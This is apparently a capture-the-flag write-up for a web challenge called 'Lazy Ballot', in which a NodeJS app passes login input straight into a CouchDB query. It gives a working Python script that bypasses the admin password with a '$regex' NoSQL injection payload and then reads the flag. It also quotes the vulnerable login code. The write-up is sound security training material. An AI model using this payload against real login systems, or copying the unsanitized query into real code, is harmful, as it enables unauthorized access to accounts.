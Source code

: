 # [Web] Lazy Ballot

This webapp is written in NodeJS and interacts with a CouchDB NoSQL database. It allows an authenticated user to see voting results.

There is 1 vulnerability to exploit: the login API endpoint is vulnerable to a NoSQL injection. It accepts user input as is, forwarded to CouchDB.

```js
router.post("/api/login", async (req, res) => {
    const { username, password } = req.body;

    if (!username || !password) {
        return res.status(403).send(response("Missing parameters"));
    }

    if (!await db.loginUser(username, password)) {
        return res.status(403).send(response("Invalid username or password"));
    }

    req.session.authenticated = true;
    return res.send(response("User authenticated successfully"));
});

[...]

    async loginUser(username, password) {
        const options = {
            selector: {
                username: username,
                password: password,
            },
        };

        const resp = await this.userdb.find(options);
        if (resp.docs.length) return true;

        return false;
    }
```

The `username` and `password` can be injected. Since we are given the knowledge of the `admin` user, we can leverage the password field to bypass the password validation. Once authenticated the flag is given in the `/votes/list` endpoint.

Let's use a regexp straight out of the [CouchDB documentation](https://docs.couchdb.org/en/stable/api/database/find.html#creating-selector-expressions). It will accept any password: `^.*$`

Final script:
```python
import requests
import re

endpoint = "http://94.237.59.206:40521/api"
login_path = "/login"
votes_path = "/votes/list"

# https://docs.couchdb.org/en/stable/api/database/find.html#creating-selector-expressions
data = {
    "username": "admin",
    "password": {"$regex": "^.*$"}
}

s = requests.Session()
# NoSQLi login
response = s.post(endpoint + login_path, json=data)
# Get votes
response = s.get(endpoint + votes_path)
found = re.findall("HTB\{\w+\}", response.text)
print(found[0])
```

![flag](./img/web_couch_ballot.png)
